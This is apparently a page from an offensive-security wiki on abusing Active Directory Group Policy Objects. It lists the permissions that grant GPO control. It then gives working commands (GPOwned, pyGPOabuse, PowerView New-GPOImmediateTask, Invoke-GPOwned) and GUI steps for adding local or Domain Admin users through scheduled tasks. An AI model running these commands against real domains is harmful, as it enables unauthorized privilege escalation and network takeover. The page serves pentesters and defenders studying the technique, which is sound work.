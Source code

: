 ```yaml
---
authors: ShutdownRepo
category: ad
---
```


# Group policies

## Theory

"Group Policy" is a management feature of Active Directory. It allows admins to manage computers and users. Group Policy Objetcs (GPOs) make up Group Policies. GPOs are associated to AD objects (sites, domains, organizational units (OUs)).

> Group Policies can include security options, registry keys, software installation, and scripts for startup and shutdown and domain members refresh group policy settings every 90 minutes by default (5 minutes for Domain Controllers). This means that Group Policy enforces configured settings on the targeted computer.
>
> [adsecurity.org](https://adsecurity.org/?p=2716)

In certain scenarios, an attacker can gain control over GPOs. Some ACEs can give that control (see [this BlackHat talk](https://www.blackhat.com/docs/us-17/wednesday/us-17-Robbins-An-ACE-Up-The-Sleeve-Designing-Active-Directory-DACL-Backdoors-wp.pdf), page 28):

* `WriteProperty` to the `GPC-File-Sys-Path` property of a GPO (specific GUID specified)
* `GenericAll`, `GenericWrite`, `WriteProperty` to any property (no GUID specified)
* `WriteDacl`, `WriteOwner`

## Practice

GPO-based attacks can be conducted with [New-GPOImmediateTask](https://github.com/PowerShellMafia/PowerSploit/blob/26a0757612e5654b4f792b012ab8f10f95d391c9/Recon/PowerView.ps1#L5907-L6122) ([PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1) module), [SharpGPOAbuse](https://github.com/FSecureLABS/SharpGPOAbuse) (C#), or [pyGPOabuse](https://github.com/Hackndo/pyGPOAbuse) (python) and [GPOwned](https://github.com/X-C3LL/GPOwned) (Python) for UNIX-like systems.

### Immediate Scheduled Task

An attacker can edit the GPO to add a scheduled task that runs instantly and removes itself after, every time Group Policy refreshes. The attacker can then gain access to all AD objects this GPO applies to.

::: tabs

=== UNIX-like

From UNIX-like systems, a new immediate scheduled task can be created with [GPOwned](https://github.com/X-C3LL/GPOwned) (Python) or added to an existing GPO with [pyGPOabuse](https://github.com/Hackndo/pyGPOAbuse) (Python).

```bash
# GPOwned (buggy, not to use in production) - execute something (e.g. calc.exe)
GPOwned -u 'user' -p 'password' -d 'domain' -dc-ip 'domaincontroller' -gpoimmtask -name '{12345677-ABCD-9876-ABCD-123456789012}' -author 'DOMAIN\Administrator' -taskname 'Some name' -taskdescription 'Some description' -dstpath 'c:\windows\system32\calc.exe'

# pyGPOabuse, update an existing GPO - add a local admin
pygpoabuse 'domain'/'user':'password' -gpo-id "12345677-ABCD-9876-ABCD-123456789012"
```


=== Windows

From Windows, a new immediate scheduled task can be created with [Powerview](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1)'s [New-GPOImmediateTask](https://github.com/PowerShellMafia/PowerSploit/blob/26a0757612e5654b4f792b012ab8f10f95d391c9/Recon/PowerView.ps1#L5907-L6122) module (Powershell). In the following example, a user is added to the local administrators group.

```bash
New-GPOImmediateTask -Verbose -Force -TaskName 'TaskName' -GPODisplayName 'GPODisplayName' -Command cmd -CommandArguments "/c net localgroup administrators shutdown /add"
```

After a successful execution, the scheduled task can be removed with the following command.

```bash
New-GPOImmediateTask -Force -Remove -GPODisplayName 'GPODisplayName'
```

:::


### Manually adding a user to the local admin group

An attacker can also manually add a user to the local administrator group. This can be achieved with the Group Policy Management Editor.

Step 1: create the user

`Windows search bar > Group Policy Management Editor > Computer configuration > Preferences > Control Panel Settings > Local Users and Groups > Right click on it > New > Local User > Action: Create > User name: `

Step 2: add the user to the local admin group

`Windows search bar > Group Policy Management Editor > Computer configuration > Preferences > Control Panel Settings > Local Users and Groups > Right click on it > New > Local User > Action: Update > Group name :  > Members: Add: `

### MultiTasking Attack

An attacker can edit the GPO to add a two-stage scheduled task that escalates to Domain Admin when controlling a GPO linked to an OU. The attack creates an immediate task that executes as NT Authority\SYSTEM, using SYSVOL as an open share to drop a batch file, which then registers a second scheduled task running with "highest available privileges". When a domain admin is logged into the workstation, the second task executes in that context, adding the attacker to the domain admin group.

::: tabs
=== Windows
Using [Invoke-GPOwned](https://github.com/n0troot/Invoke-GPOwned):

```powershell
Invoke-GPOwned -GPOName "Target_GPO_Name"  -LoadDLL ".\Microsoft.ActiveDirectory.Management.dll" -User "Attacker" -DA -ScheduledTasksXMLPath ".\ScheduledTasks.xml" -SecondTaskXMLPath ".\wsadd.xml" -Author "DA_User" -SecondXMLCMD "/r net group 'Domain Admins' <Attacker> /add /dom"
```

### Force Group Policy update

Domain members refresh group policy settings every 90 minutes by default but it can locally be forced with the following command: `gpupdate /force`.

### Other exploitation paths

In addition to the aforementioned exploitation paths, GPOs can be abused in other ways: leveraging logon/logoff scripts, using registry for autoruns, installing .msi, edit services and similar code execution avenues.

## Resources

[https://www.harmj0y.net/blog/redteaming/abusing-gpo-permissions/](https://www.harmj0y.net/blog/redteaming/abusing-gpo-permissions/)

[https://adsecurity.org/?p=2716](https://adsecurity.org/?p=2716)

[https://beta.hackndo.com/gpo-abuse-with-edit-settings/](https://beta.hackndo.com/gpo-abuse-with-edit-settings/)
